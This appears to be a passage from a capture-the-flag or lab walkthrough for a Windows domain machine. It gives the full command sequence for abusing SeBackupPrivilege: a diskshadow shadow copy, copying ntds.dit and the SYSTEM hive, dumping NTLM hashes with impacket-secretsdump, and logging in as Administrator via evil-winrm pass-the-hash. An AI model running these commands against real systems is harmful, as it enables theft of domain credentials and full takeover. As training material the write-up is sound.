 If you type `whoami /PRIV` you can see SeBackupPrivilege which can be used for privilege escalation.

![SeBackupPrivilege](SeBackupPrivilege.png)


**On attacker macine**

Create this file

```console
set context persistent nowriters
add volume c: alias something
create
expose %something% h:
```

Now convert it to be compatible with windows:

```console
unix2dos diskshadow.txt
```

**On target machine**

Upload file and then run following commands

```console
upload diskshadow.txt
```

```console
diskshadow /s dishshadow.txt

robocopy /b h:\windows\ntds . ntds.dit

reg save hklm\system C:\Users\xyan1d3\AppData\Local\Temp\system
```

When you finished download `system` and `ntds.dir` files

```console
download system
download ntds.dir
```

(Winrm is quite slow, you would need to wait for a bit to download)


When downloading finished run `impacket-secretdumps` again (but now on downloaded files)

```console
impacket-secretsdump -ntds ./ntds.dit  -system ./system LOCAL > secretsdump-output.txt
```

Now we can login as Administrator as we have hash!

`Administrator:500:aa[REDACTED]ee:96[REDACTED]f0c:::`

we need to use second (NTML) hash (starting with 96)

```console
evil-winrm -i $ip -u Administrator -H 96[REDACTED]0c
```
